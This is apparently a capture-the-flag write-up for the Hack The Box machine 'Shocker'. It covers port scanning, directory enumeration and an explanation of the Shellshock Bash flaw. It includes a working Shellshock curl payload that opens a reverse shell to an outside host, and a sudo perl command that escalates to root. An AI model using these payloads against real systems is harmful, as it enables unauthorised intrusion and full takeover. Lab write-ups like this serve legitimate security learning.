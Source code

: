 ![](pics/logo.png)

# Shocker (Linux)

## Enumeration

```
rustscan --ulimit 5000 10.129.1.175 -- -sC -sV -o port_scan

PORT     STATE SERVICE REASON  VERSION                                                                                                                                                    
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))                                                                                                                             
| http-methods:                                                                                                                                                                           
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Examine Port 80 - Apache Server

![](pics/website.png)

Accessing Port 80 via the browser, we only see a picture. Guess we have to enumerate the webserver and search for other directories using `gobuster`:

```
└──╼ $ gobuster dir -u "10.129.1.175" -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.1.175
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/19 08:47:59 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/server-status (Status: 403)
```

Gobuster reveals two additional directories: `cgi-bin` and `server-status`. While server-status is rather not interesting, cgi-bin can lead to serious vulnerabilities such as ShellShock. 

### Shellshock
Shellshock is effectively a Remote Command Execution vulnerability in Bash that is caused by the fact that BASH (versions 1.0.3 - 4.3) incorrectly executes trailing commands when it imports a function definition stored in an environment variable:

```
env x= '() { :;}; echo vulnerable' bash -c "echo test"
```

Vulnerable versions of Bash interpret `x='() { :;};'` as a function definition for a function named x. The function body is simply `:` (colon), which is a Bash-builtin that does nothing and returns with exit code 0. While importing the function, it also executes the code following it - `echo vulnerable`. The overall output is 

```
vulnerable
test
```

### Exploiting Shellshock

As the machine is also called Shocker, I assume that this is the vulnerability that we should exploit. So let's see if we can find some vulnerable scripts in the directory.

Those scripts are mostly written in bash, perl, python or have the cgi extension. We can use gobuster again to scan the directory!

```
 gobuster dir -u "10.129.1.175/cgi-bin/" -w /usr/share/wordlists/dirb/common.txt -x sh,pl,cgi,py
===============================================================                                                                                                                           
Gobuster v3.0.1                                                                                                                                                                           
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.1.175/cgi-bin/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     cgi,sh,pl,py
[+] Timeout:        10s
===============================================================
2021/01/19 09:13:54 Starting gobuster
===============================================================
 /user.sh (Status: 200)

```

If we access the file via the browser, it asks us to download the response of the script:

```
└──╼ $ cat user.sh              
Content-Type: text/plain

Just an uptime test script

 03:16:23 up 32 min,  0 users,  load average: 0.19, 0.15, 0.09
```

The script apparently executes the command `uptime`. 

*When a webserver uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the reuqest to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request. Security documentation for the widely used Apache web server states "CGI scripts can ... be extremely dangerous if they are not carefully checked." and other methods of handling web server requests are often used* (https://github.com/opsxcq/exploit-CVE-2014-6271)

## Gaining Initial Foothold

To establish a reverse shell, we first set up our netcat listener and then execute following:

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.26/4444 0>&1" http://10.129.1.175/cgi-bin/user.sh
```

This will exploit the Shellshock vulnerability and create a reverse shell for us. Of course this can also be done with Burp or some scripts or even modules from Metasploit. But I usually prefer to do it manually.

![](pics/reverse_shell.png)

## Privilege Escalation

Checking the available commands that can be executed with sudo, we see that our current user shelly can execute perl with sudo privileges.
```
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Now it's rather easy:

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
# id
uid=0(root) gid=0(root) groups=0(root)
```

We are root!